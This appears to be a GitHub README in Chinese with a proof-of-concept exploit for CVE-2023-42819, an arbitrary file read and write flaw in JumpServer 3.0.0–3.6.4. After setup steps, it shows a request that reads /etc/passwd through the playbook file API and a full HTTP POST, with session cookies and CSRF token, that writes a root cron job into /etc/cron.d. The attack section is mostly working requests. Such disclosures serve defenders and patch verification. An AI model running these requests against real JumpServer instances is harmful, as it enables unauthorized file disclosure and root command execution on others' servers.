

# CVE-2023-42819

> **Created by：** A-little-dragon
>
> **Team：** TracelessSec
>
> **漏洞描述：** JumpServer任意文件读取漏洞

# 0x01 影响范围

3.0.0 <= Jump Server <= 3.6.4

# 0x02 环境搭建

在CentOS7系统下执行如下命令即可进行快速安装：

```bash
curl -sSL https://github.com/jumpserver/jumpserver/releases/download/v3.6.0/quick_start.sh | bash
cd /opt/jumpserver-installer-v3.8.1
./jmsctl.sh start
```

# 0x03 漏洞复现

```bash
/api/v1/ops/playbook/{ID}/file/?key=/etc/passwd#/
```

进入工作台，创建一个playbook，会获取一个ID




```bash
http://10.0.100.253/api/v1/ops/playbook/d85fc8e8-1b4b-42b7-8b3e-832fa4261650/file/?key=/etc/passwd#/
```


写入定时任务创建文件

```bash
POST /api/v1/ops/playbook/bd456105-c552-44ec-b890-6216656c1f7e/file/ HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:109.0) Gecko/20100101 Firefox/119.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Connection: close
Cookie: SESSION_COOKIE_NAME_PREFIX=jms_; jms_public_key="LS0tLS1CRUdJTiBQVUJMSUMgS0VZLS0tLS0KTUlHZk1BMEdDU3FHU0liM0RRRUJBUVVBQTRHTkFEQ0JpUUtCZ1FEdEhwL0JkRWtqYjNkb2NObWVGaGlxUFhVeQo0N0RPbU1DMTZ4QTBuL29ubWdIU3FXdktSSGlHQmlDdDNDTG1yUDM4MXpFZGZHaXA0anE1QThIS2grVjgyVjdCCk1IS044S29GTUZMZ3RFbGUwMTNRZTBSRTRWclgzc3JzZ05sZGNuVUQ1eVpFQTEyR2hUcWRPNTRpejQ4RmtOS1AKbjNMMS9jZDdIUlZsSm9TWUNRSURBUUFCCi0tLS0tRU5EIFBVQkxJQyBLRVktLS0tLQ=="; jms_sessionid=708sbyw1e1zmfw79wdcbot2omas8cw3z; jms_csrftoken=SqmVxQn9Ue50oVvrEtQMMSy4MFjXhZaVdngoWFM0MZ2WdaKNjISftqKndsD9Dw3f; X-JMS-ORG=00000000-0000-0000-0000-000000000002; sidebarStatus=1; django_language=zh-hans; activeTab=PlaybookDetail; jms_session_expire=close
Upgrade-Insecure-Requests: 1
X-CSRFToken:SqmVxQn9Ue50oVvrEtQMMSy4MFjXhZaVdngoWFM0MZ2WdaKNjISftqKndsD9Dw3f
Content-Type: application/json
Content-Length: 116

{
"key":"/etc/cron.d",
"is_directory":false,
"name":"test1",
"content":"* * * * * root touch /tmp/success\n"
}
```